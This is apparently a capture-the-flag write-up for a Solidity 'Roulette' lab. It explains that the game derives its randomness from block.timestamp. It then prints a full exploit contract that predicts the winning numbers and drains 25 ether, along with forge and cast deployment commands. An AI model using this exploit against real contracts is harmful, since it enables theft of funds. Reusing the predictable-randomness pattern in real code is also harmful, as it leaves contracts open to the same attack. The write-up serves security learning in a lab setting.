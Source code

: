 In this Game, we need to have make the `stolenEnough()` bool returns true in order to solve the lab.

```solidity
contract Setup{
    Roulette public roulette;

    constructor() payable {
        roulette = new Roulette{value: 30 ether}();
    }

    function isSolved() public view returns(bool){
        return roulette.stolenEnough();
    }
}
```

Now let's see the `Roullete Contract`  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract Roulette{

    bool public stolenEnough = false;
    mapping(address => uint) public wonRoulette;

    modifier _kickedOut(){
        require(wonRoulette[msg.sender] <= 100, "You've stolen enough, get out!");
        _;
    }

    modifier _hasStolenEnough(){
        _;
        if(address(msg.sender).balance > 20){
            stolenEnough = true;
        }
    }

    constructor() payable {}

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette(uint256 _guess) public _kickedOut{
        require(wonRoulette[msg.sender] < 5, "You cannot play this game again!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = randomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender]++;
            (bool winningMoney, ) = msg.sender.call{value: 1 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }

    function playBiggerRoulette(uint256 _guess) public _kickedOut _hasStolenEnough{
        require(wonRoulette[msg.sender] >= 5, "You haven't met the requirement to play the game!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = biggerRandomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender] += 50;
            (bool winningMoney, ) = msg.sender.call{value: 10 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }
    
}
```

We have 2 modifiers up there, one is `_kickOut()` that will check whether we have scroe of winning about 100 or not, if we are then we can no longer play the game. The second one is `_hasStolenEnough()` this is the one which will check after all the code in the function is complete, if the balance of the player is greeater than 20 Ether, it will change the `stolenEnough` bool to true, so our goal here is to have a Balance greater than 20 Ether.

The first 2 functions below the constructor seems to be the generator of the source of the randomness, and it doesn't seem to be that secure since it use a predictable or at least we can also get that variable the `block.timestamp`, the only difference is the modulo. Both of them are used for different function, the `randomGenerator()` is used by `playRoullete()` and the `biggerRandomGenerator()` is used by `playBiggerRoulette()`. 

So we are dealing with an insecure randomness vulnerability here, let's see the `playRoulette()` first, if we manage to guess the correct number we will get 1 Ether and it adds our winning by 1, so we can only play this maximum of 5 times since when we reach 5 it will revert. The other one, `playBiggerRoullete()` seems to give more reward and won counter, but it require us to have at least 5 win already (so we need to play the smaller one first), if we managed to guess right, we will get 10 ether per win and it will add 50 winning point, so we can only play this twice since it has the `_kickedOut()` modifier and it will also validate our balance by the `_hasStolenEnough()` modifier.

So the Attack Idea here is to play the `playRoulette()` 5 times and then moving to the `playBiggerRoulette()` 2 times, it will give us 25 Ether in total, more than enough to make the `stolenEnough()` to become true, but we can't just play it since it has `block.timestamp` as the source of randomness, we need to make an Exploit contract here, it will look like this

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./Setup.sol";
import "./Roulette.sol";

contract exploit{
    Setup public setup;
    Roulette public roulette;

    constructor(address _setup) {
        setup = Setup(_setup);
        roulette = Roulette(setup.roulette());
    } 

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette() public{
        uint256 answer = randomGenerator();
        uint256 bigAnswer = biggerRandomGenerator();
        for(uint i = 0; i < 5; i ++){
            roulette.playRoulette(answer);
        } 
        roulette.playBiggerRoulette(bigAnswer);
        roulette.playBiggerRoulette(bigAnswer);
    }

    receive() external payable { }    
}
```

Now we just need to deploy the contract and call the `playRoulette()` on our smart contract to solve it, here is how you can deploy the Exploit contract.

```bash
// Deploying the Exploit Contract
forge create src/roulette/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Call the playRoulette()
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "playRoulette()"
```

By doing the command above, deploying the contract and calling it, you should've solved the lab!